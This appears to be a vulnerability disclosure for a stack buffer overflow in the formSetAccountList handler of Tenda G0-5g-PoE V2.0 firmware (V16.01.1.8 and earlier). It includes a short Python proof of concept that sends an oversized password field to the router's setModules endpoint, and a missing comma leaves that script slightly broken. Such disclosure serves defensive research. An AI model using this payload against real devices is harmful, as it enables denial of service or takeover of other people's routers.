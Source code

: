 # Tenda G0-5g-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8 and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-5g-PoEV2.0 V16.01.1.8 were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
